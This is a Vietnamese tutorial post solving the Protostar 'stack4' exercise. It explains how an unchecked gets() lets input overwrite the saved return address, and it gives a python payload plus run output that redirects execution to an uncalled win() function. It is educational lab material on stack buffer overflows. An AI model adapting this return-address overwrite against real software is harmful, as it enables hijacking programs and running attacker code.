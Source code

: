 ```yaml
---
layout: post
title: stack4
---
```

Kỹ thuật trong bài trước giới thiệu cách tìm và gán địa chỉ hàm để gọi đến hàm đó.
Tuy nhiên, việc gọi hàm thành công là do trong source code đã có sẵn dòng lệnh với mục đích tương tự.
Trong bài này, chúng ta sẽ tìm hiểu cách thức gọi hàm hoàn toàn ngoài ý muốn của chương trình.
Hãy xem source code sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
Có thể thấy bên trong hàm `main` chỉ gọi `gets` để lấy giá trị người dùng nhập vào và gán cho biến `buffer`.
Chương trình sẽ thoát ngay sau đó mà không có thêm lệnh nào khác.
Tuy nhiên, nếu nhìn vào asm code của chương trình như dưới đây, ta sẽ thấy có thêm 2 lệnh được chạy.
```asm
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
```
2 lệnh được nhắc đến là `leave` và `ret`, tương đương với `return` trong C.
Lưu ý rằng chạy một chương trình tương tự như việc gọi 1 hàm con.
Trước khi lệnh đầu tiên của hàm con được thực thi, CPU sẽ lưu lại địa chỉ của lệnh kế tiếp cần được thực hiện sau khi hàm con kết thúc.
Khi hàm con return về hàm đã gọi nó, địa chỉ này sẽ được `pop` vào `eip`, và lệnh tại đó được thực thi.
Ví dụ, hãy cùng xem stack ngay trước vào khi gọi hàm `gets` trong `main` của chương trình stack4.
Phân biệt theo màu: <span style="color:aqua">esp</span> và <span style="color:orangered">eip</span>.
<pre class="memory">
<span style="color:orangered">0x08048418</span> <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave

...
0xbffff748:     0xb7fff8f8
0xbffff74c:     0xb7f0186e
<span style="color:aqua">0xbffff750</span>:     0xbffff760
0xbffff754:     0xb7ec6165
</pre>
Ngay sau khi lệnh `call` được thực thi.
<pre class="memory">
<span style="color:orangered">0x0804830c</span> <gets@plt+0>:        jmp    DWORD PTR ds:0x80495fc
...
0xbffff748:     0xb7fff8f8
<span style="color:aqua">0xbffff74c</span>:     0x0804841d
0xbffff750:     0xbffff760
0xbffff754:     0xb7ec6165
</pre>
Ở đây, lệnh cần được thực thi sau khi `gets` hoàn thành nằm ở địa chỉ `0x804841d`.
Do vậy lệnh này được `push` vào stack.

Khi áp dụng lý thuyết này vào trường hợp stack4 được gọi bởi hệ điều hành, ta biết được sẽ có 1 địa chỉ lệnh được lưu vào bộ nhớ để dùng sau khi stack4 kết thúc.
`ret` của stack4 sẽ pop giá trị địa chỉ này vào `eip` sau khi nó được thực thi.
Nếu biết vị trí lưu địa chỉ này, chúng ta có thể exploit chương trình bằng cách ghi đè địa chỉ khác lên nó và điều hướng cho chương trình thực thi lệnh lưu ở địa chỉ mới.
Các hacker sử dụng lý thuyết này để điều hướng và chạy đoạn mã độc của họ.

Callee và caller là thuật ngữ để chỉ một hàm (caller) gọi một hàm khác (callee).
Cần lưu ý thêm rằng ngoài địa của lệnh kế tiếp, `ebp` của caller cũng được lưu lại.
(nếu để ý đoạn code sẽ thấy lệnh `push ebp` là lệnh đầu tiên của main.)
Một vài calling convention quyết định bởi compiler, trong đó có ví dụ stack4 của bài viết này, sẽ lưu `eip`, tiếp theo là 4 byte `ebp` lên stack, và có thêm cả padding.
Callee sẽ có `ebp` chính là `esp` của caller.
Padding trong bài này có thể thấy qua lệnh `and esp,0xfffffff0`. Lệnh này sẽ biến thay đổi 4 bit nhỏ nhất trong giá trị `esp` về 0.
(kỹ thuật này còn được gọi là memory alignment, dùng để tối ưu và tăng tốc truy cập bộ nhớ.)
Như vậy padding sẽ có độ dài thông thường là 0, 4, 8, hoặc 12 byte.
Để ghi đè vào đúng địa chỉ mong muốn, ta sẽ cần quan tâm đến phần padding này.

Từ asm code của `main` (callee), ta thấy được `buffer` sẽ chiếm 64 byte bộ nhớ từ `esp + 0x10` đến `esp + 0x4f`.
Ngay sau `buffer`, bắt đầu từ `esp + 0x50` sẽ là phần bao gồm padding với độ dài không chắc chắn và theo sau với 4 byte `ebp` của caller trước khi chạm đến được địa chỉ `eip` của caller.
Như vậy, ta sẽ cần chuẩn bị giá trị tương đương khoảng 64 + 12 + 4 + 4 = 84 byte để làm tràn `buffer` và lưu địa chỉ mới cho `eip` của caller.
Sau đây là giá trị được dùng làm ví dụ, với địa chỉ của win là `0x080483f4`.
Phân biệt theo màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">vùng padding, ebp, eip của caller</span>.

<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080495ec</span>      <span style="color:aqua">0xbffff778</span>      <span style="color:aqua">0x080482e8</span>
0xbffff770:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080495ec</span>      <span style="color:aqua">0xbffff7a8</span>      <span style="color:aqua">0x08048449</span>
0xbffff780:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048430</span>      <span style="color:aqua">0xbffff7a8</span>
0xbffff790:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804843b</span>      <span style="color:aqua">0xb7fd7ff4</span>
0xbffff7a0:     <span style="color:orangered">0x08048430</span>      <span style="color:orangered">0x00000000</span>      <span style="color:orangered">0xbffff828</span>      <span style="color:orangered">0xb7eadc76</span>
0xbffff7b0:     <span style="color:orangered">0x00000001</span>      0xbffff854      0xbffff85c      0xb7fe1848
</pre>
Sau khi gọi hàm `gets`:
```bash
python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\xf4\x83\x04\x08' * 5" > input.txt
stack4 < input.txt
```
<pre class="memory">
0xbffff750:     0xbffff760      0xb7ec6165      0xbffff768      0xb7eada75
0xbffff760:     <span style="color:aqua">0x41414141</span>      <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>
0xbffff770:     <span style="color:aqua">0x45454545</span>      <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>
0xbffff780:     <span style="color:aqua">0x31313131</span>      <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>
0xbffff790:     <span style="color:aqua">0x35353535</span>      <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>
0xbffff7a0:     <span style="color:orangered">0x080483f4</span>      <span style="color:orangered">0x080483f4</span>      <span style="color:orangered">0x080483f4</span>      <span style="color:orangered">0x080483f4</span>
0xbffff7b0:     <span style="color:orangered">0x080483f4</span>      0xbffff800      0xbffff85c      0xb7fe1848
</pre>

Lời giải này giả thiết chúng ta không biết về padding.
Trên thực ta, ta có thể dùng gdb để kiểm tra độ dài này.
Cụ thể, độ dài này sẽ nên là 8 byte thay vì 12 byte.
Để 12 byte sẽ khiến chương trình lưu thêm 1 lần địa chỉ của `win` vào phía sau, dẫn dến 2 lần thực thi hàm `win` này.
Bạn có thể xem kết quả chạy ở cuối bài viết.

## Ref
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\xf4\x83\x04\x08' * 5" > input.txt
user@protostar:~$ stack4 < input.txt
code flow successfully changed
code flow successfully changed
Segmentation fault
```

Lời giải phổ biến hơn với giả định padding thông thường dài 8 byte:
```bash
user@protostar:~$ python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888' + '\xf4\x83\x04\x08' * 4" > input.txt
user@protostar:~$ stack4 < input.txt
code flow successfully changed
Segmentation fault
```
